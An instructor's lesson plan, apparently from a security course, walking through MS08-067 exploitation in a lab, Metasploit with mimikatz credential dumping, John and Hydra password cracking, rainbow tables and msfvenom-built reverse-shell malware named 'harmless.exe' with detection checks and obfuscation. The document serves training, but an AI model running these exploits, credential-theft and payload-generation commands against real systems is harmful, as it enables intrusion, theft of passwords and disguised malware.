==== 13.1 Discuss shell code
* DISCUSSION: Shell code is a small piece of code used as the payload in the exploitation of software.  Often utilized as part of a buffer overflow attack.  Goal of the attack is to point the programs instruction pointer (ip) at the memory space in which the shell code resides.


----
msfvenom --help

Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message


msfvenom -l encoders                                                    #lists all available encoders
----

#open this ms08_067 exploit and show students the NOP sled at the front of the shellcode:
https://www.exploit-db.com/exploits/40279/

{empty} +

==== 13.2 Identify remote shell code execution
* DISCUSSION: Indicators of remote shell code execution include network traffic or logs containing large numbers of a constant character to discover buffer overflows.  Could also be long strings of 90s (indicating NOP codes) followed by random hex characters.

.*DEMO: ID remote shell code execution*
{empty} +

#there are many ways to generate shell code, but we will stick to using "msfvenom" .. first lets see the simplicity of it .. +

#good idea to restart the Win XP box to reset listening named PIPE .. +

----
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/ms08-067-nc.py

vi ./ms-067-067-nc.py                                               #show students the various "key parts" of the payload; particularly note the shellcode and the nop generator

usage:
python ms08-067-nc.py {target IP} 1 {source IP} {listening port}
----

#now we run the attack and catch it with tcpdump: +

image::../../resources/images/linux_13_1.png[tcpdump,height="70",width="450",float="left"]

image::../../resources/images/linux_13_2.png[ms08067,height="250",width="450",float="left"]
{empty} +

#run a few commands {tasklist,systeminfo, dir /a} on the returned windows shell to generate additional traffic we will ID in pcap .. +

----
wireshark ms08_067.pcap                                             #ignore LUA warning
----

#search for packet string, case sensitive: PIPE, until you find "PIPE/browser" .. this will be more relevent when we get into metasploit .. +

image::../../resources/images/linux_13_3.png[PIPE,height="250",width="650",float="left"]

image::../../resources/images/linux_13_4.png[PIPE2,height="150",width="300",float="left"]
{empty} +

#search for the commands we ran: tasklist, systeminfo, etc . . follow TCP stream and see the plaintext traffic that was generated.

image::../../resources/images/linux_13_5.png[cmds,height="350",width="300",float="left"]
{empty} +


==== 13.3 Define credentials
.*DISCUSSION: What are credentials*
* Username / Password
* Biometrics
* X.509 certificates
* etc...

==== 13.4 Perform credential cracking
.*DEMO: Use john to break a shadow file*
----
unshadow /etc/passwd /etc/shadow > /tmp/mypass.txt                      #unshadow is deprecated in current version of JTR; JTR cracks salted passwords using only shadow file.
john /tmp/mypass.txt
----

----
#when john cracks a password it displays it and writes the output to john.pot; john will not attempt to re-crack any cracked passwords currently in john.pot
john.pot must be removed first:
find / -type f -name john.pot -exec rm {} \;                            #clears previously cracked passwords, so john can crack them again

#to display passwords that john has already cracked:
john --show wordlist.txt                                                #where wordlist.txt is the password/dictionary list you've been using all along

[CTRL]+C                                                                #stops john and writes current progress to john.rec
john --restore                                                          #automatically picks up where john left off
----

#JTR can be use to conduct password audits on both linux and windows passwords hashes

==== 13.5 Identify purposes for Metasploit
The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.<<2>>

The Metasploit Framework (MSF) is the de facto standard for pentesting.  The purpose of the framework is to provide a modular approach to testing remote systems against vulnerabilities.  MSF breaks attacks up into independant exploits that can be utilized with numerous different payloads.  After a successful exploitation, post-exploitation modules can be loaded into the various payloads as well.


==== 13.6 Identify common Metasploit modules
.*Meterpreter*
* payload/*/meterpreter
* Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.<<3>>

.*multihandler*
* exploit/multi/handler
* generic payload handler configured to handle connections from exploits launched outside MSF

.*psexec*
* exploit/windows/psexec
* Windows exploit module that takes advantage of Sysinternals psexec capability to execute a payload
* requires credentials

.*mimikatz*
* post exploitation module for dumping the memory of a system to retrieve credentials

.*DEMO: Metasploit Framework & MS08_067*

#before exploiting the XP system, instructor logs into XP system and creates additional accounts, and logs into all the accounts using "switch user":

image::../../resources/images/linux_13_12.png[taskmgr,height="150",width="350",float="left"]

#having multiple users all logged in, puts their credentials into memory, and allows mimikatz to grab them ..
----
msfconsole -q
use exploit/windows/smb/ms08_067_netapi
set LHOST <IP>
set LPORT <Port other than 4444>
check
exploit
meterpreter> {getuid,hashdump,sysinfo,help}                     (ask students to ID the hash type, i.e. LM or NTLM)
meterpreter> load mimikatz                                      (reads cleartext credential and tokens stored in memory)
meterpreter> wdigest                                            (dumps cleartext " )  
meterpreter> msv                                                (retrieves msv creds)
meterpreter> mimikatz_command -f sekurlsa::searchPasswords      (reads cleartext credentials and tokens in LSA secrets (LSASS) process in memory)
----

image::../../resources/images/linux_13_7.png[ms080672,height="150",width="300",float="left"]

#after exploiting the target and getting a shell, you can dump all sorts of usefull info from the target, as seen below +
sysinfo meterpreter command not only tells us the service pack of the OS, but also how many users are currently logged in .. +

image::../../resources/images/linux_13_8.png[meterpreter,height="350",width="750",float="left"]

#use mimikatz, to scrape the targets memory for any cleartext credentials, as seen here: 

image::../../resources/images/linux_13_9.png[lm,height="350",width="750",float="left"]

#once we have the hashes of the target system, we can use either auxiliary/analyze/jtr_crack_fast or /usr/sbin/john to crack the hashes ..

image::../../resources/images/linux_13_10.png[john,height="250",width="450",float="left"]

#Note: the hash types here .. LM and NTLM
#Note: that the LM hash for Joe is == Passw0rd, and Administrator == password, which are each only 8 chars long .. 
----
LM Password Characteristics:        restricted to max of 14 chars
                                    password converted to UpperCase/not case sensitive (see John-The-Ripper's 1st attempt above)
                                    null-padded up to 14 bytes
                                    
#we can see below that both Joe and SYSTEM/Administrator are using LM passowrds .. LM passwords are fairly easy to crack with a wordlist
                                   
Dan              lm{ 00000000000000000000000000000000 }, ntlm{ 623fc83e86dab4740a637e794ba0bbda }
Tina             lm{ 00000000000000000000000000000000 }, ntlm{ b76c84374bd80c37029c1e492be5da55 }
NT AUTHORITY     lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
Joe              lm{ b34ce522c3e4c8774a3b108f3fa6cb6d }, ntlm{ a87f3a337d73085c45f9416be5787d86 }

#we can see above that both Dan and Tina are using NTLM passwords ..  NTLM passwords are not as easy as LM passwords to crack

NTLM Password Characteristics:      greater than 14 chars, up to 127 chars
                                    passwords ARE case sensitive
                                    
----

image::../../resources/images/linux_13_11.png[john2,height="100",width="450",float="left"]


==== 13.7 Define rainbow tables
.*Rainbow tables vs brute force*
* Brute force:
** Tries all possible combinations of a plain text to find corresponding hash
** Only 100% way to find a plaintext that matches a hash

.*DEMO: Hydra Service Brute Force*
{empty} +

* Hydra Features
** can be configured to run against single target or list of targets 
** can brute force a broad range of network-based services:

Tool Link: https://www.thc.org/thc-hydra/

Currently this tool supports: +
	  Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, +
	  HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-POST, HTTPS-HEAD, +
	  HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, +
	  PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, S7-300, SAP/R3, SIP, SMB, SMTP, +
	  SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP. +
	  
----
usage:
hydra -L {user_list} -P {password_list} {service://target IP}
hydra --help

#ensure the port you wish to brute force is open to you .. couple ways we can accomplish this ..
nc {target IP} {target port #}
nmap -Pn -n {target IP}

#IF it's not open to you, adjust the windows firewall using the following commands:
netsh advfirewall set allprofiles state on +
netsh advfirewall firewall add rule name="Firewall open to attack" dir=in action=allow protocol=ANY remoteip={attacker IP}

Example:
hydra -l Joe -P dictionary.txt smb://192.168.217.192
----

image::../../resources/images/linux_13_13.png[hydra_brute,height="200",width="600",float="left"]
{empty} +


* Rainbow tables:
** Takes advantage of time-memory-trade-off, and store condensed tables consisting of pre-computed hash chains
** Allows for rapidly finding a plaintext input that matches a hash
** Rainbow tables require a specific hashing algorithm, and a reduction function
** Can be defeated with long/complex salting
** Due to hashing collisions, a hash table will never encompass 100% of all possible hashes
** only stores the initial and final resulting passwords of the chain (uses far less disk space than a dictionary list)

http://kestas.kuliukas.com/RainbowTables/
https://blogs.msdn.microsoft.com/tzink/2012/08/29/how-rainbow-tables-work/

.*DEMO: Building Rainbow tables*
{empty} +

First we take a word from the dictionary, like "password" then we apply the chosen hash function, well say MD5: +
This works best when you know the constraints of, or requirements for the organizations passwords.

----
echo -n "*password*" | md5sum | awk '{print $1}'
*5f4dcc3b* 5aa765d61d8327deb882cf99                                     #we take the first 8 chars of the resulting hash, and hash that ..

echo -n "*5f4dcc3b*" | md5sum | awk '{print $1}'
*b19b2e72* 3fb88e48a0a8452768cecb0c                                     #we repeat the process again and again, till we hit our per-determined chain limit of 100,000 ..

echo -n "*b19b2e72*" | md5sum | awk '{print $1}'
a3488d0bd2fd476463ee2f852bcedd5e
----

.. and so on .. till we get the predermined number of hashes, well say 100,000 +
BUT, we only store the *1st* plaintext word, "password", and the *last* hash of the entire hash table ..

Then we simply follow this workflow to ID the correct table/chain to start with ..

image::../../resources/images/linux_13_14.png[rainbow,height="400",width="500",float="left"]
{empty} +

git clone https://github.com/qsantos/rainbow.git +
#use "gen.sh" to generate rainbow table ..
*WARNING* .. takes 6 hrs to generate a 4-6 char table using single core CPU .. best to generate beforehand, then demo cracking speed on password.

==== 13.8 Identify the purposes for custom malware
.*DISCUSSION: Why is custom malware important?*
* Allows for specific targeting of a single version of a single application found on the desired target network
* Eliminates the target of opportunity approach, allows pin-point attacks
* Involves the study of specific network/system configuration to look for vulnerabilities


.*DEMO: Custom Malware Generation*
{empty} +

----
#code below generate an executable file containing windows 32bit reverse shell:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.217.142 LPORT=12345 -a x86 --platform windows -b "\x00\x0a\x0d\x20" -e generic/none -f exe -o harmless.exe

#linux 32bit bind shell C shellcode:
msfvenom -p linux/x86/shell_bind_tcp LHOST=192.168.217.142 LPORT=12345 -a x86 --platform linux EXITFUNC=thread -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai -f c  
----

*Check your malware for signature detection:* +

----
find / -type f -iname "Automater.py"
sha256sum {exploit}
python Automater.py {sha256_hash}
----

Your malware, likely, was detected, as there was no obfuscation done yet ..

*Malware Obfuscation:*

image::../../resources/images/linux_13_15.png[rainbow,height="400",width="850",float="left"]
{empty} +

more info on exe2hex:  https://github.com/g0tmi1k/exe2hex +

==== 13.9 Identify zero configuration networking
* The idea for zero configuration networking is that configured servers (DHCP, DNS) shouldn't be required for devices to be able to communicate with each other.
* That means making it possible to take two laptop computers, and connect them with a crossover Ethernet cable, and have them communicate usefully using IP<<4>>
* This is often seen when an interface is connected to a network, but is not assigned an IP address, it will automatically grab a random 169.254/16 address.


ifdef::backend-docbook[]
[index]
Example Index
////////////////////////////////////////////////////////////////
The index is normally left completely empty, it's contents being
generated automatically by the DocBook toolchain.
////////////////////////////////////////////////////////////////
endif::backend-docbook[]

[bibliography]
==== References
- [[[1]]] http://nvlpubs.nist.gov/nistpubs/ir/2013/NIST.IR.7298r2.pdf
- [[[2]]] https://en.wikipedia.org/wiki/Metasploit_Project#Metasploit_Framework
- [[[3]]] https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/
- [[[4]]] http://www.zeroconf.org/